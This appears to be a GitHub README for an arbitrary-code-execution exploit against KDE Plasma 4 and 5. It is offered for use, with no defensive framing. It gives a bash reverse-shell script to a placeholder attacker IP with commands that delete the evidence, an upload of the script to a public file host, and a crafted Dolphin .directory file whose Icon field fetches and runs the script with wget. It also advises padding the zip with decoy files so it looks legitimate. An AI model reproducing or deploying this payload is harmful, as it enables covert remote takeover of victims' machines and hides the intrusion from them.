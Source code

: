 # KDE-ARBITRARY-CODE-EXECUTION-AUTOCLEAN
KDE Plasma 4 & 5

First off you need to upload a .sh file with the following format
```bash
bash -i >& /dev/tcp/<ATTACKER-IP>/<PORT> 0>&1 | rm /home/$USER/Downloads/NAME_OF_EXTRACTED_FOLDER/.directory | rm /home/$USER/*.sh
```
I would suggest using https://0x0.st with the following command
```
curl -F'file=@FILENAME.sh' https://0x0.st
```
It will return a link for your shell script.

Now wee need to make the payload named .directory to add to our .zip
```
[Dolphin]
Timestamp=2019,7,28,20,21,14
Version=4

[Desktop Entry]
Type=Directory
Icon[$e]=$(wget${IFS}https://0x0.st/FILENAME.sh&&/bin/bash${IFS}FILENAME.sh)
```
Replace FILENAME.sh with your 0x0.st file name

now save this as .directory, in a folder name of your choice, you should also add other things in it, to make it look legit.
then run
```
zip -r FOLDERNAME.zip FOLDERNAME
```
remeber this folders name needs to match the name of the folder in your shell script, or it will not rm the .directory file.
(NAME_OF_EXTRACTED_FOLDER)

What will happen, is when the user unzips this and has Dolphin file manager opened the Icon part will be executed, Which grabs and runs our .sh, which our .sh will connect to attacker server, and also rm the .directory file along with the .sh we grabbed, which will kind of hide what happened, but it will also keep multiple sessions from being started. 
